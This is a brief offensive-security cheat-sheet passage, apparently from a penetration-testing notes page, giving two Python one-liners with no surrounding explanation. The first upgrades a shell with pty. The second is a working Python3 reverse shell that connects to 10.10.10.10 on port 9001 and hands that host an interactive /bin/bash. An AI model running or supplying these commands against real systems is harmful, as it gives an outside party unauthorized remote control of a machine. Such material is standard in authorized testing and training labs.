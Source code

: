 ##### Spawn an interactive shell with Python:
```
python -c 'import pty; pty.spawn("/bin/sh")'
```
##### Python3 reverse shell:
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
